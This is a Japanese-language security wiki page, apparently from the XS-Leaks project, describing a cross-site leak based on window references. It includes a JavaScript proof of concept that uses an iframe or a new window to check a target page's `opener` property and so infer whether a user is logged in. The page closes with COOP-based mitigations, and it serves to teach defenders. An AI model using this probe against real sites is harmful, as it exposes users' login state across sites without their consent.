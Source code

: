 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++

もしページが `opener` プロパティを `null` に設定したり、ユーザーの状態に応じて [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) による保護を使用している場合、その状態に関するクロスサイト情報を推測することができます。
例えば、攻撃者は認証されたユーザーのみがアクセスできる iframe (または新しいウィンドウ) でエンドポイントを開き、そのウィンドウの参照をチェックするだけで、ユーザーがログインしているかどうかを検出することができます。

## コード
以下のコードは、`open` プロパティが `null` に設定されているかどうか、あるいは [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) ヘッダーが `unsafe-none` 以外の値で存在するかどうかを検出する方法を示しています。
これは、iframeと新しいウィンドウの両方で行うことができます。

```javascript
// 脆弱な攻撃対象URL
const v_url = 'https://example.org/profile';
const exploit = (url, new_window) => {
  let win;
  if(new_window){
    // 新しいタブを開き、win.opener が COOP の影響を受けたか、あるいは null に設定されたかどうかを確認
    win = open(url);
  }else{
    // opener が定義されているかどうかを検出するために iframe を作成
    // COOP の検出や、ページがフレーム保護を実装している場合は機能しない
    document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks">'); 
    // iframeを脆弱な攻撃対象URLにリダイレクトする
    win = open(url, "xsleaks");
  }
  
  // ページのロードを2秒待つ
  setTimeout(() => {
    // 新しく開いたウィンドウのオープナープロパティを確認する
    if(!win.opener) console.log("win.opener is null");
    else console.log("win.opener is defined");
  }, 2000);
}
exploit(v_url);
exploit(v_url, 1);
```

## 対策

この種の XS-Leak を軽減する方法は、COOP を使って全てのページで `opener` プロパティを同じ値に設定し、異なるページ間で一貫性を保つ必要があります。
JavaScript を使って `opener` を `null` に設定すると、iframe のサンドボックス属性を使用して JavaScript を完全に無効にすることができるため、エッジケースが発生することがあります。